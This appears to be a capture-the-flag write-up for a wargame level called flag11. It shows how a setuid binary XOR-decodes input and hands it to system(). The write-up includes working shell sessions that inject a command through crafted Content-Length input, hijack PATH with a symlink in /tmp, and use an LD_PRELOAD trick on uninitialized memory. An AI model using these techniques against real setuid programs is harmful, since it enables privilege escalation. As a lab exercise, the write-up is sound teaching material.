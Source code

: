 The `fread(buf, length, 1, stdin)` always returns 1 as we can read in the unix manual:
`fread()  and  fwrite()  return the number of items successfully read or written (i.e., not the number of characters).`

Here `if(length < sizeof(buf)) {` we have two ways to progress. I suppose
having two solutions means calling `process()` from the different parts of code.

The first way is setting "Content-Length: 1". The buffer is XORed using the simple algorithm below, this time the 'for' cycle runs only once.

```c
  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }
```

```
sh-4.2$ ruby -e 'print "Content-Length: 1\nA"' | /home/flag11/flag11 
sh: @: command not found

sh-4.2$ ruby -e 'print "Content-Length: 1\n" + ("A".ord ^ 0x01).chr'  | /home/flag11/flag11 
sh: $'A\300Q': command not found

sh-4.2$ ruby -e 'print "Content-Length: 1\n" + ("A".ord ^ 0x01).chr'  | /home/flag11/flag11 
sh: -c: line 0: unexpected EOF while looking for matching ``'
sh: -c: line 1: syntax error: unexpected end of file

sh-4.2$ ruby -e 'print "Content-Length: 1\n" + ("A".ord ^ 0x01).chr'  | /home/flag11/flag11 
sh: A: command not found
```

Because the buffer with 'A' character is not NULL terminated and contains
uninitialized data, we use the technique described here [Controlling uninitialized memory with LD_PRELOAD](http://vulnfactory.org/blog/2010/04/08/controlling-uninitialized-memory-with-ld_preload/)
to have more luck with terminating 'A'. 

```
sh-4.2$ ln -sf /bin/getflag /tmp/A
sh-4.2$ export PATH=/tmp:$PATH

sh-4.2$ export LD_PRELOAD=$(ruby -e 'print "\n" * 50')

sh-4.2$ ruby -e 'print "Content-Length: 1\n" + ("A".ord ^ 0x01).chr'  | /home/flag11/flag11 
getflag is executing on a non-flag account, this doesn't count
```

The getflag runs, albeit there is a bug in the binary, because the new process
is created using `system()`, so it wasn't possible to get flag11 privileges.

```
man 3 system

  Do not use system() from a program with set-user-ID or set-group-ID privileges,
  because strange values for some environment variables might be used to subvert
  system integrity. Use the exec(3) family of functions instead, but not
  execlp(3) or execvp(3). system() will not, in fact, work properly from
  programs with set-user-ID or set-group-ID privileges on systems on which
  /bin/sh is bash version 2, since bash 2 drops privileges on startup. (Debian
  uses a modified bash which does not do this when invoked as sh.)
```
